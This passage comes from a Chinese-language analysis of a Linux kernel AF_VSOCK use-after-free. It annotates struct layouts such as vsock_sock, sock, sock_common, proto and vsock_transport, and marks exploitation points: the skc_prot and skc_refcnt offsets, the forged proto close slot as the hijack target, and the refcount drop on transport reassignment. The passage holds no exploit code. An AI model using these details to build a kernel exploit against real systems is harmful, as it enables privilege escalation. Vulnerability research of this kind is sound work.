    struct sockaddr_vm remote_addr;                  /* 远端地址；connect() 时被设置，用于选择 transport */
    struct list_head bound_table;                    /* 链表节点：同时参与 bound 链表与 unbound 链表，是漏洞的根源 */
    struct list_head connected_table;                /* 链表节点：参与 connected 链表 */
    bool trusted;                                    /* 是否处于受信任命名空间，影响绑定权限 */
    bool cached_peer_allow_dgram;                    /* 缓存的 peer 允许数据报标志 */
    u32 cached_peer;                                 /* 缓存的 peer CID */
    const struct cred *owner;                        /* 套接字属主凭证，用于权限检查 */
    long connect_timeout;                            /* connect() 的最长等待时间 */
    struct sock *listener;                           /* 若该套接字由 accept 派生，指向父监听套接字 */
    struct list_head pending_links;                  /* 待处理连接链表 */
    struct list_head accept_queue;                   /* 已建立但尚未被 accept 的连接队列 */
    bool rejected;                                   /* 是否已被拒绝连接请求 */
    struct delayed_work connect_work;                /* connect 超时延迟工作 */
    struct delayed_work pending_work;                /* pending 处理延迟工作 */
    struct delayed_work close_work;                  /* 优雅关闭延迟工作，用于等待对端确认 */
    bool close_work_scheduled;                       /* close_work 是否已调度 */
    u32 peer_shutdown;                               /* 对端关闭方向掩码：SHUTDOWN_MASK / RCV_SHUTDOWN / SEND_SHUTDOWN */
    bool sent_request;                               /* 是否已发送连接请求 */
    bool ignore_connecting_rst;                      /* 是否忽略正在连接时收到的 RST */
    u64 buffer_size;                                 /* 当前缓冲区大小 */
    u64 buffer_min_size;                             /* 缓冲区最小大小 */
    u64 buffer_max_size;                             /* 缓冲区最大大小 */
    void *trans;                                     /* per-transport 上下文，通常指向 struct virtio_vsock_sock */
};
```

`vsock_sock` 在 `AF_VSOCK` 专用 slab 缓存中分配，是漏洞的 UAF 对象。其 `bound_table` 字段被 bound 链表与 unbound 链表共用，导致 `__vsock_in_bound_table()` 无法区分套接字挂在哪条链上。`transport` 字段在重分配路径上被切换，是 release 钩子分发的起点。

##### 2-3-2-2. virtio_vsock_sock

per-transport 上下文，由 `vsk->trans` 指向。每个 vsock 套接字在每次绑定 transport 时都会分配一份独立的 `virtio_vsock_sock`。

```c
struct virtio_vsock_sock {
    struct vsock_sock *vsk;                      /* 反向指针，指回所属 vsock_sock */
    spinlock_t tx_lock;                          /* 发送侧锁 */
    spinlock_t rx_lock;                          /* 接收侧锁 */
    u32 tx_cnt;                                  /* 已发送计数 */
    u32 peer_fwd_cnt;                            /* 对端已确认的转发计数 */
    u32 peer_buf_alloc;                          /* 对端通告的缓冲区大小 */
    size_t bytes_unsent;                         /* 尚未发送的字节数 */
    u32 fwd_cnt;                                 /* 本端已转发计数 */
    u32 last_fwd_cnt;                            /* 上一次转发的计数 */
    u32 rx_bytes;                                /* 已接收字节数 */
    u32 buf_alloc;                               /* 本端通告的缓冲区大小 */
    struct sk_buff_head rx_queue;                /* 接收队列，等待上层读取的 skb */
    u32 msg_count;                               /* 消息计数 */
};
```

`virtio_transport_do_socket_init()` 分配并双向绑定该结构。`virtio_transport_remove_sock()` 会先清空其 `rx_queue`，再进入 `vsock_remove_sock()`。它不与 `vsock_sock` 共享引用计数——这是漏洞链条上一个容易被忽略的细节：release 路径只递减 `sk_refcnt`，`virtio_vsock_sock` 的生命周期由 transport 层的 init/destruct 单独管理。

##### 2-3-2-3. virtio_vsock_pkt_info

发送控制包（SHUTDOWN、RST 等）时使用的描述结构，由 transport 层的 shutdown/reset 函数构造。

```c
struct virtio_vsock_pkt_info {
    u32 remote_cid;                              /* 远端 CID */
    u32 remote_port;                             /* 远端端口 */
    struct vsock_sock *vsk;                      /* 关联的 vsock_sock */
    struct msghdr *msg;                          /* 用户消息头，数据包场景使用 */
    u32 pkt_len;                                 /* 包长度 */
    u16 type;                                    /* 包类型 */
    u16 op;                                      /* 操作码：VIRTIO_VSOCK_OP_RST / VIRTIO_VSOCK_OP_SHUTDOWN 等 */
    u32 flags;                                   /* 操作标志，如 VIRTIO_VSOCK_SHUTDOWN_RCV / SEND */
    bool reply;                                  /* 是否为回复包 */
};
```

`virtio_transport_shutdown()` 与 `virtio_transport_reset()` 在构造 `virtio_vsock_pkt_info` 后调用 `virtio_transport_send_pkt_info()` 发送控制包。虽然本身不参与漏洞触发，但在 release 路径的优雅关闭分支中会被调用。

#### 2-3-3. 通用套接字结构

`vsock_sock` 内嵌的 `struct sock` 是通用套接字结构，它把所有协议共用的字段集中在一起，是引用计数、链表操作与回调分发的实际承载者。

##### 2-3-3-1. sock

通用套接字结构，是 socket 层的核心对象。它包含引用计数、状态、链表、回调函数指针、队列、锁等所有协议共用的字段。

```c
struct sock {
    struct sock_common __sk_common;                  /* 公共前缀，包含地址、端口、proto 指针、引用计数等；位于结构体起始处 */
    __u8 __cacheline_group_begin__sock_write_rx[0];  /* 缓存行分组标记（RX 写侧起点），零长度占位 */
    atomic_t sk_drops;                               /* 丢包计数 */
    __s32 sk_peek_off;                               /* MSG_PEEK 的读取偏移 */
    struct sk_buff_head sk_error_queue;              /* 错误包队列（ICMP 等异步错误） */
    struct sk_buff_head sk_receive_queue;            /* 接收队列，待用户态读取的 skb */
    struct {
        atomic_t rmem_alloc;                         /* 接收缓冲已分配量 */
        int len;                                     /* backlog 队列长度 */
        struct sk_buff *head;                        /* backlog 队列头 */
        struct sk_buff *tail;                        /* backlog 队列尾 */
    } sk_backlog;                                    /* 用户持锁期间积压的 skb 队列 */
    __u8 __cacheline_group_end__sock_write_rx[0];    /* 缓存行分组标记（RX 写侧终点） */
    __u8 __cacheline_group_begin__sock_read_rx[0];   /* 缓存行分组标记（RX 读侧起点） */
    struct dst_entry *sk_rx_dst;                     /* 接收路径缓存的路由 */
    int sk_rx_dst_ifindex;                           /* sk_rx_dst 对应的接口索引 */
    u32 sk_rx_dst_cookie;                            /* sk_rx_dst 的验证 cookie */
    unsigned int sk_ll_usec;                         /* busy poll 的微秒超时 */
    unsigned int sk_napi_id;                         /* busy poll 关联的 NAPI ID */
    u16 sk_busy_poll_budget;                         /* busy poll 的预算 */
    u8 sk_prefer_busy_poll;                          /* 是否优先 busy poll */
    u8 sk_userlocks;                                 /* 用户设置的锁标志（SO_SNDBUF/SO_RCVBUF） */
    int sk_rcvbuf;                                   /* 接收缓冲区大小 */
    struct sk_filter *sk_filter;                     /* 挂载的经典 BPF 过滤器 */
    union {
        struct socket_wq *sk_wq;                     /* 关联的 socket 等待队列 */
        struct socket_wq *sk_wq_raw;                 /* 未加 RCU 保护的原始指针 */
    };
    void (*sk_data_ready)(struct sock *);            /* 数据就绪回调，唤醒阻塞的读操作 */
    long sk_rcvtimeo;                                /* 接收超时时间 */
    int sk_rcvlowat;                                 /* 低水位标记，决定何时唤醒读操作 */
    __u8 __cacheline_group_end__sock_read_rx[0];     /* 缓存行分组标记（RX 读侧终点） */
    __u8 __cacheline_group_begin__sock_read_rxtx[0]; /* 缓存行分组标记（RXTX 读侧起点） */
    int sk_err;                                      /* 套接字错误码，由错误路径设置 */
    struct socket *sk_socket;                        /* 反向指针，指回上层 struct socket */
    struct mem_cgroup *sk_memcg;                     /* 所属内存 cgroup */
    struct xfrm_policy *sk_policy[2];                /* IPsec 策略缓存 */
    __u8 __cacheline_group_end__sock_read_rxtx[0];   /* 缓存行分组标记（RXTX 读侧终点） */
    __u8 __cacheline_group_begin__sock_write_rxtx[0];/* 缓存行分组标记（RXTX 写侧起点） */
    socket_lock_t sk_lock;                           /* 套接字锁；lock_sock/release_sock 操作该字段 */
    u32 sk_reserved_mem;                             /* 预留内存量 */
    int sk_forward_alloc;                            /* 前向分配量 */
    u32 sk_tsflags;                                  /* 时间戳标志 */
    __u8 __cacheline_group_end__sock_write_rxtx[0];  /* 缓存行分组标记（RXTX 写侧终点） */
    __u8 __cacheline_group_begin__sock_write_tx[0];  /* 缓存行分组标记（TX 写侧起点） */
    int sk_write_pending;                            /* 是否有待处理的写操作 */
    atomic_t sk_omem_alloc;                          /* 输出侧已分配内存 */
    int sk_sndbuf;                                   /* 发送缓冲区大小 */
    int sk_wmem_queued;                              /* 发送队列已用内存 */
    refcount_t sk_wmem_alloc;                        /* 写侧引用计数；sk_free() 检查该计数 */
    unsigned long sk_tsq_flags;                      /* TCP 小队列标志 */
    union {
        struct sk_buff *sk_send_head;                /* 待发送 skb 头指针 */
        struct rb_root tcp_rtx_queue;                /* TCP 重传队列（红黑树根） */
    };
    struct sk_buff_head sk_write_queue;              /* 发送队列 */
    u32 sk_dst_pending_confirm;                      /* 路由确认挂起标志 */
    u32 sk_pacing_status;                            /* 限速状态 */
    struct page_frag sk_frag;                        /* 分片缓存页 */
    struct timer_list sk_timer;                      /* 通用套接字定时器 */
    unsigned long sk_pacing_rate;                    /* 当前限速速率 */
    atomic_t sk_zckey;                               /* MSG_ZEROCOPY 计数器 */
    atomic_t sk_tskey;                               /* 时间戳序号 */
    __u8 __cacheline_group_end__sock_write_tx[0];    /* 缓存行分组标记（TX 写侧终点） */
    __u8 __cacheline_group_begin__sock_read_tx[0];   /* 缓存行分组标记（TX 读侧起点） */
    unsigned long sk_max_pacing_rate;                /* 最大限速速率 */
    long sk_sndtimeo;                                /* 发送超时时间 */
    u32 sk_priority;                                 /* SO_PRIORITY 设置的优先级 */
    u32 sk_mark;                                     /* SO_MARK 设置的标记 */
    struct dst_entry *sk_dst_cache;                  /* 发送路径缓存的路由 */
    netdev_features_t sk_route_caps;                 /* 路由能力 */
    struct sk_buff *(*sk_validate_xmit_skb)(struct sock *, struct net_device *, struct sk_buff *); /* 发送前校验回调 */
    u16 sk_gso_type;                                 /* GSO 类型 */
    u16 sk_gso_max_segs;                             /* GSO 最大分段数 */
    unsigned int sk_gso_max_size;                    /* GSO 最大尺寸 */
    gfp_t sk_allocation;                             /* 分配标志 */
    u32 sk_txhash;                                   /* 发送哈希 */
    u8 sk_pacing_shift;                              /* 限速位移 */
    bool sk_use_task_frag;                           /* 是否使用 task frag */
    __u8 __cacheline_group_end__sock_read_tx[0];     /* 缓存行分组标记（TX 读侧终点） */
    u8 sk_gso_disabled : 1;                          /* GSO 是否禁用 */
    u8 sk_kern_sock : 1;                             /* 是否内核套接字 */
    u8 sk_no_check_tx : 1;                           /* 发送校验和是否关闭 */
    u8 sk_no_check_rx : 1;                           /* 接收校验和是否关闭 */
    u8 sk_shutdown;                                  /* 关闭方向掩码：SHUTDOWN_MASK / RCV_SHUTDOWN / SEND_SHUTDOWN */
    u16 sk_type;                                     /* 套接字类型：SOCK_STREAM / SOCK_DGRAM / SOCK_SEQPACKET */
    u16 sk_protocol;                                 /* 协议号 */
    unsigned long sk_lingertime;                     /* SO_LINGER 超时 */
    struct proto *sk_prot_creator;                   /* 最初创建时的 proto 指针，用于诊断 */
    rwlock_t sk_callback_lock;                       /* 保护回调指针的读写锁 */
    int sk_err_soft;                                 /* 软错误码，不阻塞操作 */
    u32 sk_ack_backlog;                              /* 当前 accept 队列长度 */
    u32 sk_max_ack_backlog;                          /* accept 队列最大长度 */
    kuid_t sk_uid;                                   /* 属主 uid */
    spinlock_t sk_peer_lock;                         /* 保护 peer_pid / peer_cred */
    int sk_bind_phc;                                 /* 绑定硬件时钟 */
    struct pid *sk_peer_pid;                         /* 对端 pid */
    const struct cred *sk_peer_cred;                 /* 对端凭证 */
    ktime_t sk_stamp;                                /* 最近数据包时间戳 */
    int sk_disconnects;                              /* 断连计数，用于 sk_wait_event 判断 */
    u8 sk_txrehash;                                  /* 发送侧重哈希策略 */
    u8 sk_clockid;                                   /* 时钟类型 */
    u8 sk_txtime_deadline_mode : 1;                  /* 发送时间截止模式 */
    u8 sk_txtime_report_errors : 1;                  /* 是否报告发送时间错误 */
    u8 sk_txtime_unused : 6;                         /* 保留位 */
    void *sk_user_data;                              /* 用户数据，供上层模块使用 */
    void *sk_security;                               /* LSM 安全上下文 */
    struct sock_cgroup_data sk_cgrp_data;            /* cgroup 归属信息 */
    void (*sk_state_change)(struct sock *);          /* 状态变化回调 */
    void (*sk_write_space)(struct sock *);           /* 写空间可用回调 */
    void (*sk_error_report)(struct sock *);          /* 异步错误报告回调 */
    int (*sk_backlog_rcv)(struct sock *, struct sk_buff *); /* backlog 接收回调，vsock 设置为 vsock_queue_rcv_skb */
    void (*sk_destruct)(struct sock *);              /* 析构回调，vsock 设置为 vsock_sk_destruct */
    struct sock_reuseport *sk_reuseport_cb;          /* SO_REUSEPORT 上下文 */
    struct bpf_local_storage *sk_bpf_storage;        /* eBPF local storage */
    struct callback_head sk_rcu;                     /* RCU 回调头，用于延迟释放 */
    netns_tracker ns_tracker;                        /* 网络命名空间跟踪器 */
    struct xarray sk_user_frags;                     /* 用户分片 xarray */
};
```

`struct sock` 是 `vsock_sock` 的内嵌部分。其 `sk_refcnt` 位于 `sock_common` 内的偏移 0x80，是漏洞链上被错误递减的计数器；`sk_destruct` 是释放路径上会调用的最后回调；`sk_wmem_alloc` 与 `sk_refcnt` 共同决定对象是否真正释放。

##### 2-3-3-2. sock_common

`struct sock` 的公共前缀，位于结构体起始处。IPv4 与 IPv6 共享该前缀，使协议族可以在不知道完整 sock 布局的情况下访问地址与端口。

```c
struct sock_common {
    union {
        __addrpair skc_addrpair;                 /* 地址对的紧凑表示 */
        struct {
            __be32 skc_daddr;                    /* 目的地址 */
            __be32 skc_rcv_saddr;                /* 接收源地址 */
        };
    };
    union {
        unsigned int skc_hash;                   /* 哈希值 */
        __u16 skc_u16hashes[2];                  /* 两个 16 位哈希值 */
    };
    union {
        __portpair skc_portpair;                 /* 端口对的紧凑表示 */
        struct {
            __be16 skc_dport;                    /* 目的端口 */
            __u16 skc_num;                       /* 本地端口号 */
        };
    };
    unsigned short skc_family;                   /* 地址族：AF_VSOCK */
    volatile unsigned char skc_state;            /* 套接字状态：TCP_CLOSE / TCP_SYN_SENT / TCP_ESTABLISHED 等 */
    unsigned char skc_reuse : 4;                 /* SO_REUSEADDR 级别 */
    unsigned char skc_reuseport : 1;             /* SO_REUSEPORT 标志 */
    unsigned char skc_ipv6only : 1;              /* IPV6_V6ONLY 标志 */
    unsigned char skc_net_refcnt : 1;            /* 是否持有网络命名空间引用 */
    int skc_bound_dev_if;                        /* 绑定接口索引 */
    union {
        struct hlist_node skc_bind_node;         /* 绑定链表节点 */
        struct hlist_node skc_portaddr_node;     /* 端口地址链表节点 */
    };
    struct proto *skc_prot;                      /* 协议操作表指针；被伪造后 close 槽位成为劫持点 */
    possible_net_t skc_net;                      /* 所属网络命名空间 */
    struct in6_addr skc_v6_daddr;                /* IPv6 目的地址 */
    struct in6_addr skc_v6_rcv_saddr;            /* IPv6 接收源地址 */
    atomic64_t skc_cookie;                       /* 套接字 cookie，用于 SO_COOKIE */
    union {
        unsigned long skc_flags;                 /* 标志位 */
        struct sock *skc_listener;               /* 监听套接字指针 */
        struct inet_timewait_death_row *skc_tw_dr; /* TCP 时间等待死亡行 */
    };
    int skc_dontcopy_begin[0];                   /* 零长度边界标记 */
    union {
        struct hlist_node skc_node;              /* 通用链表节点 */
        struct hlist_nulls_node skc_nulls_node;  /* 空节点安全的链表节点 */
    };
    unsigned short skc_tx_queue_mapping;         /* 发送队列映射 */
    unsigned short skc_rx_queue_mapping;         /* 接收队列映射 */
    union {
        int skc_incoming_cpu;                    /* 接收 CPU */
        u32 skc_rcv_wnd;                         /* 接收窗口 */
        u32 skc_tw_rcv_nxt;                      /* 时间等待接收序号 */
    };
    refcount_t skc_refcnt;                       /* 引用计数，与 sk_refcnt 同义；是漏洞链上的核心计数器 */
    int skc_dontcopy_end[0];                     /* 零长度边界标记 */
    union {
        u32 skc_rxhash;                          /* 接收哈希 */
        u32 skc_window_clamp;                    /* 窗口上限 */
        u32 skc_tw_snd_nxt;                      /* 时间等待发送序号 */
    };
};
```

`struct sock_common` 是 `struct sock` 的起始部分。其 `skc_prot` 位于偏移 0x28 处，是伪造指针的目标；`skc_refcnt` 位于偏移 0x80，是漏洞链上被错误递减的计数器。这两个字段在 2-5 节中还会作为跨缓存伪造偏移的依据出现。

#### 2-3-4. 协议操作接口

协议操作接口是套接字层与协议实现之间的分发层。它由两个结构体组成：`proto_ops` 面向套接字层，`proto` 面向协议层。

##### 2-3-4-1. proto

协议级操作集，由 `sk->sk_prot` 指向。`sock_common->skc_prot` 与 `sk->sk_prot` 指向同一对象。伪造 `skc_prot` 即伪造整张 proto 表。

```c
struct proto {
    void (*close)(struct sock *, long);                                  /* 关闭钩子；vsock_release() 首条调用，是劫持目标 */
    int (*pre_connect)(struct sock *, struct sockaddr *, int);           /* 连接前钩子 */
    int (*connect)(struct sock *, struct sockaddr *, int);               /* 连接钩子 */
    int (*disconnect)(struct sock *, int);                                /* 断开钩子 */
    struct sock *(*accept)(struct sock *, struct proto_accept_arg *);    /* accept 钩子 */
    int (*ioctl)(struct sock *, int, int *);                              /* ioctl 钩子 */
    int (*init)(struct sock *);                                           /* 初始化钩子 */
    void (*destroy)(struct sock *);                                       /* 销毁钩子 */
    void (*shutdown)(struct sock *, int);                                 /* 关闭方向设置钩子 */
    int (*setsockopt)(struct sock *, int, int, sockptr_t, unsigned int);  /* setsockopt 钩子 */
    int (*getsockopt)(struct sock *, int, int, char *, int *);            /* getsockopt 钩子 */
    void (*keepalive)(struct sock *, int);                                /* keepalive 钩子 */
    int (*compat_ioctl)(struct sock *, unsigned int, unsigned long);      /* 兼容 ioctl 钩子 */
    int (*sendmsg)(struct sock *, struct msghdr *, size_t);               /* 发送消息钩子 */
    int (*recvmsg)(struct sock *, struct msghdr *, size_t, int, int *);   /* 接收消息钩子 */
    void (*splice_eof)(struct socket *);                                  /* splice EOF 钩子 */
    int (*bind)(struct sock *, struct sockaddr *, int);                   /* bind 钩子 */
    int (*bind_add)(struct sock *, struct sockaddr *, int);               /* 增量 bind 钩子 */
    int (*backlog_rcv)(struct sock *, struct sk_buff *);                  /* backlog 接收钩子 */
    bool (*bpf_bypass_getsockopt)(int, int);                              /* 是否绕过 getsockopt 的 BPF 钩子 */
    void (*release_cb)(struct sock *);                                    /* release_sock 中调用的延迟处理钩子 */
    int (*hash)(struct sock *);                                           /* 哈希钩子 */
    void (*unhash)(struct sock *);                                        /* 去哈希钩子 */
    void (*rehash)(struct sock *);                                        /* 重哈希钩子 */
    int (*get_port)(struct sock *, unsigned short);                       /* 分配端口钩子 */
    void (*put_port)(struct sock *);                                      /* 释放端口钩子 */
    int (*psock_update_sk_prot)(struct sock *, struct sk_psock *, bool);  /* 更新 sk_prot 钩子 */
    unsigned int inuse_idx;                                               /* 使用中的索引 */
    int (*forward_alloc_get)(const struct sock *);                        /* 查询前向分配 */
    bool (*stream_memory_free)(const struct sock *, int);                 /* 流式内存是否空闲 */
    bool (*sock_is_readable)(struct sock *);                              /* 套接字是否可读 */
    void (*enter_memory_pressure)(struct sock *);                         /* 进入内存压力 */
    void (*leave_memory_pressure)(struct sock *);                         /* 离开内存压力 */
    atomic_long_t *memory_allocated;                                      /* 已分配内存计数 */
    int *per_cpu_fw_alloc;                                                /* 每 CPU 前向分配计数 */
    struct percpu_counter *sockets_allocated;                             /* 已分配套接字计数 */
    unsigned long *memory_pressure;                                       /* 内存压力标志 */
    long *sysctl_mem;                                                     /* 内存 sysctl */
    int *sysctl_wmem;                                                     /* 发送缓冲 sysctl */
    int *sysctl_rmem;                                                     /* 接收缓冲 sysctl */
    u32 sysctl_wmem_offset;                                               /* 发送缓冲 sysctl 偏移 */
    u32 sysctl_rmem_offset;                                               /* 接收缓冲 sysctl 偏移 */
    int max_header;                                                       /* 最大首部长度 */
    bool no_autobind;                                                     /* 是否禁用自动绑定 */
    struct kmem_cache *slab;                                              /* 专用 slab 缓存；AF_VSOCK 使用该字段决定分配来源 */
    unsigned int obj_size;                                                /* 对象大小 */
    unsigned int ipv6_pinfo_offset;                                       /* IPv6 私有数据偏移 */
    slab_flags_t slab_flags;                                              /* slab 标志 */
    unsigned int useroffset;                                              /* 用户数据偏移 */
    unsigned int usersize;                                                /* 用户数据大小 */
    unsigned int *orphan_count;                                           /* 孤儿计数 */
    struct request_sock_ops *rsk_prot;                                    /* request_sock 操作集 */
    struct timewait_sock_ops *twsk_prot;                                  /* timewait_sock 操作集 */
    union {
        struct inet_hashinfo *hashinfo;                                   /* inet 哈希信息 */
        struct udp_table *udp_table;                                      /* UDP 表 */
        struct raw_hashinfo *raw_hash;                                    /* raw 哈希 */
        struct smc_hashinfo *smc_hash;                                    /* SMC 哈希 */
    } h;
    struct module *owner;                                                 /* 所属模块 */
    char name[32];                                                        /* 协议名 */
    struct list_head node;                                                /* proto 链表节点 */
    int (*diag_destroy)(struct sock *, int);                              /* 诊断销毁钩子 */
};
```

`struct proto` 是整张函数指针表。`close` 位于偏移 0x00，是 `vsock_release()` 首条调用的目标。`slab` 字段指向 `AF_VSOCK` 专用 kmem_cache，决定了 `vsock_sock` 的分配来源。

##### 2-3-4-2. proto_ops

套接字层操作集，由 `sock->ops` 指向。用户态系统调用（bind/connect/listen/close 等）通过它分发到协议族的实现。

```c
struct proto_ops {
    int family;                                                          /* 地址族 */
    struct module *owner;                                                 /* 所属模块 */
    int (*release)(struct socket *);                                      /* release 钩子；close() 系统调用经此分发到 vsock_release */
    int (*bind)(struct socket *, struct sockaddr *, int);                 /* bind 钩子 */
    int (*connect)(struct socket *, struct sockaddr *, int, int);         /* connect 钩子 */
    int (*socketpair)(struct socket *, struct socket *);                  /* socketpair 钩子 */
    int (*accept)(struct socket *, struct socket *, struct proto_accept_arg *); /* accept 钩子 */
    int (*getname)(struct socket *, struct sockaddr *, int);              /* getname 钩子 */
    __poll_t (*poll)(struct file *, struct socket *, struct poll_table_struct *); /* poll 钩子 */
    int (*ioctl)(struct socket *, unsigned int, unsigned long);           /* ioctl 钩子 */
    int (*compat_ioctl)(struct socket *, unsigned int, unsigned long);    /* 兼容 ioctl 钩子 */
    int (*gettstamp)(struct socket *, void *, bool, bool);                /* 获取时间戳钩子 */
    int (*listen)(struct socket *, int);                                  /* listen 钩子 */
    int (*shutdown)(struct socket *, int);                                /* shutdown 钩子 */
    int (*setsockopt)(struct socket *, int, int, sockptr_t, unsigned int);/* setsockopt 钩子 */
    int (*getsockopt)(struct socket *, int, int, char *, int *);          /* getsockopt 钩子 */
    void (*show_fdinfo)(struct seq_file *, struct socket *);              /* 显示 fd 信息钩子 */
    int (*sendmsg)(struct socket *, struct msghdr *, size_t);             /* sendmsg 钩子 */
    int (*recvmsg)(struct socket *, struct msghdr *, size_t, int);        /* recvmsg 钩子 */
    int (*mmap)(struct file *, struct socket *, struct vm_area_struct *); /* mmap 钩子 */
    ssize_t (*splice_read)(struct socket *, loff_t *, struct pipe_inode_info *, size_t, unsigned int); /* splice 读钩子 */
    void (*splice_eof)(struct socket *);                                  /* splice EOF 钩子 */
    int (*set_peek_off)(struct sock *, int);                              /* 设置 peek 偏移钩子 */
    int (*peek_len)(struct socket *);                                     /* 查询 peek 长度钩子 */
    int (*read_sock)(struct sock *, read_descriptor_t *, sk_read_actor_t);/* 读取 sock 钩子 */
    int (*read_skb)(struct sock *, skb_read_actor_t);                     /* 读取 skb 钩子 */
    int (*sendmsg_locked)(struct sock *, struct msghdr *, size_t);        /* 持锁发送钩子 */
    int (*set_rcvlowat)(struct sock *, int);                              /* 设置接收低水位钩子 */
};
```

`struct proto_ops` 决定套接字在通用系统调用层的分发目标。`vsock_create()` 在创建时按 socket 类型为 `sock->ops` 赋值，此后 `close()` 系统调用经由 `sock->ops->release()` 分发到 `vsock_release()`。

#### 2-3-5. transport 接口

transport 接口是 vsock 协议族抽象不同传输后端的方式。本地 loopback、guest-to-host、host-to-guest 等场景各有一套实现，通过 `vsock_transport` 结构体暴露统一的操作集。

##### 2-3-5-1. vsock_transport

```c
struct vsock_transport {
    struct module *module;                       /* transport 所属模块；try_module_get/module_put 管理其引用计数 */
    int (*init)(struct vsock_sock *, struct vsock_sock *);   /* transport 初始化钩子，绑定 per-transport 上下文 */
    void (*destruct)(struct vsock_sock *);                    /* transport 析构钩子，清理 per-transport 上下文 */
    void (*release)(struct vsock_sock *);                     /* transport 释放钩子；重分配路径上触发漏洞链 */
    int (*cancel_pkt)(struct vsock_sock *);                   /* 取消尚未发送的包 */
    int (*connect)(struct vsock_sock *);                      /* 发起连接 */
    int (*dgram_bind)(struct vsock_sock *, struct sockaddr_vm *);   /* 数据报绑定 */
    int (*dgram_dequeue)(struct vsock_sock *, struct msghdr *, size_t, int); /* 数据报出队 */
    int (*dgram_enqueue)(struct vsock_sock *, struct sockaddr_vm *, struct msghdr *, size_t); /* 数据报入队 */
    bool (*dgram_allow)(u32, u32);                            /* 数据报是否允许发送到指定 CID/端口 */
    ssize_t (*stream_dequeue)(struct vsock_sock *, struct msghdr *, size_t, int); /* 流式出队 */
    ssize_t (*stream_enqueue)(struct vsock_sock *, struct msghdr *, size_t);       /* 流式入队 */
    s64 (*stream_has_data)(struct vsock_sock *);              /* 流式是否有数据可读 */
    s64 (*stream_has_space)(struct vsock_sock *);             /* 流式是否有空间可写 */
    u64 (*stream_rcvhiwat)(struct vsock_sock *);              /* 接收高水位 */
    bool (*stream_is_active)(struct vsock_sock *);            /* 流式是否活跃 */
    bool (*stream_allow)(u32, u32);                           /* 流式是否允许连接 */
    ssize_t (*seqpacket_dequeue)(struct vsock_sock *, struct msghdr *, int);       /* 有序包出队 */
    int (*seqpacket_enqueue)(struct vsock_sock *, struct msghdr *, size_t);        /* 有序包入队 */
    bool (*seqpacket_allow)(u32);                             /* 有序包是否允许 */
    u32 (*seqpacket_has_data)(struct vsock_sock *);           /* 有序包是否有数据 */
    int (*notify_poll_in)(struct vsock_sock *, size_t, bool *);  /* 可读通知 */
    int (*notify_poll_out)(struct vsock_sock *, size_t, bool *); /* 可写通知 */
    int (*notify_recv_init)(struct vsock_sock *, size_t, struct vsock_transport_recv_notify_data *);       /* 接收通知初始化 */
    int (*notify_recv_pre_block)(struct vsock_sock *, size_t, struct vsock_transport_recv_notify_data *);  /* 接收阻塞前通知 */
    int (*notify_recv_pre_dequeue)(struct vsock_sock *, size_t, struct vsock_transport_recv_notify_data *);/* 接收出队前通知 */
    int (*notify_recv_post_dequeue)(struct vsock_sock *, size_t, ssize_t, bool, struct vsock_transport_recv_notify_data *); /* 接收出队后通知 */
    int (*notify_send_init)(struct vsock_sock *, struct vsock_transport_send_notify_data *);       /* 发送通知初始化 */
    int (*notify_send_pre_block)(struct vsock_sock *, struct vsock_transport_send_notify_data *);  /* 发送阻塞前通知 */
    int (*notify_send_pre_enqueue)(struct vsock_sock *, struct vsock_transport_send_notify_data *);/* 发送入队前通知 */
    int (*notify_send_post_enqueue)(struct vsock_sock *, ssize_t, struct vsock_transport_send_notify_data *); /* 发送入队后通知 */
    void (*notify_buffer_size)(struct vsock_sock *, u64 *);   /* 缓冲区大小变化通知 */
    int (*notify_set_rcvlowat)(struct vsock_sock *, int);     /* 设置接收低水位通知 */
    ssize_t (*unsent_bytes)(struct vsock_sock *);             /* 查询未发送字节数 */
    int (*shutdown)(struct vsock_sock *, int);                /* 关闭连接 */
    u32 (*get_local_cid)(void);                               /* 获取本地 CID */
    int (*read_skb)(struct vsock_sock *, skb_read_actor_t);   /* 读取 skb */
    bool (*msgzerocopy_allow)(void);                          /* 是否允许 MSG_ZEROCOPY */
};
```

`vsock_transport` 决定 vsock 套接字具体走哪个后端。`vsock_assign_transport()` 在 `vsk->transport` 非空且与新选择不同时调用其 `release` 钩子，这是漏洞链上第一次 `sock_put()` 的触发点。

#### 2-3-6. 链表与队列

链表与队列负责承载套接字在各状态之间的迁移，以及收发数据的缓存。它们在漏洞链条上既是触发点也是操作对象。

##### 2-3-6-1. list_head

Linux 内核双向链表的通用节点。`bound_table` 与 `connected_table` 都是该类型。

```c
struct list_head {
    struct list_head *next;                      /* 指向下一个节点 */
    struct list_head *prev;                      /* 指向上一个节点 */
};
```

`bound_table` 同时参与 bound 链表与 unbound 链表，是漏洞的根源。`connected_table` 只在套接字进入已连接状态后使用。

##### 2-3-6-2. sk_buff_head

skb 队列头，用于管理 `sk_receive_queue`、`sk_write_queue`、`sk_error_queue` 与 `vvs->rx_queue`。

```c
struct sk_buff_head {
    union {
        struct {
            struct sk_buff *next;                /* 队列中下一个 skb */
            struct sk_buff *prev;                /* 队列中上一个 skb */
        };
        struct sk_buff_list list;                /* 与上一分支等价的联合视图 */
    };
    __u32 qlen;                                  /* 队列长度 */
    spinlock_t lock;                             /* 队列锁 */
};
```

`sk_receive_queue` 在 `__vsock_release()` 中被 `skb_queue_purge()` 清空。`vvs->rx_queue` 在 `virtio_transport_remove_sock()` 中被清空。

##### 2-3-6-3. sk_buff

网络数据包缓冲。在 vsock 路径上主要用于接收队列、发送队列与 backlog 队列。

```c
struct sk_buff {
    union {
        struct {
            struct sk_buff *next;                /* 下一个 skb */
            struct sk_buff *prev;                /* 上一个 skb */
            union {
                struct net_device *dev;          /* 关联的网络设备 */
                unsigned long dev_scratch;       /* 设备暂存字段 */
            };
        };
        struct rb_node rbnode;                   /* 红黑树节点，用于 TCP 重传队列 */
        struct list_head list;                   /* 通用链表节点 */
        struct llist_node ll_node;               /* 无锁链表节点 */
    };
    struct sock *sk;                             /* 所属套接字 */
    union {
        ktime_t tstamp;                          /* 时间戳 */
        u64 skb_mstamp_ns;                       /* 单调时间戳（纳秒） */
    };
    char cb[48];                                 /* 控制块，供各层临时使用 */
    union {
        struct {
            unsigned long _skb_refdst;           /* 目的路由引用 */
            void (*destructor)(struct sk_buff *);/* 析构回调 */
        };
        struct list_head tcp_tsorted_anchor;     /* TCP 排序锚点 */
        unsigned long _sk_redir;                 /* 重定向字段 */
    };
    unsigned long _nfct;                         /* netfilter 连接跟踪 */
    unsigned int len;                            /* 数据长度（含分片） */
    unsigned int data_len;                       /* 分片数据长度 */
    __u16 mac_len;                               /* MAC 首部长度 */
    __u16 hdr_len;                               /* 首部长度 */
